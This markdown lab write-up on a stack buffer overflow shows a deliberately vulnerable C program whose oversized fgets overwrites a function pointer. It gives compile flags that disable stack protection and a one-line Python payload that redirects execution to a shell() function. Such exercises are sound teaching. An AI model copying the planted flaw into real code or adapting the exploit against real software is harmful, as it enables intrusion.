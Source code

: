 ## Bof3
Source Code: <br>
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void shell() {
    printf("You made it! The shell() function is executed\n");
}

void sup() {
    printf("Congrat!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
<br>

Stack Frame

<br>

![](./imgs/stack_bof3.png)

<br>


Complie by gcc: <br>
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2 ` 
<br>
![complie bof3](./imgs/bof3_1.png)
<br>

Use `objdump -d bof3.out | grep shell` to find `shell` address:
<br>

![shell address](./imgs/bof3_2.png)

<br>

Run program and put `128 bytes + shell address` to character array `buf` to buffer overflow to `*func`:
<br>

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`
<br>

![run program](./imgs/bof3_3.png)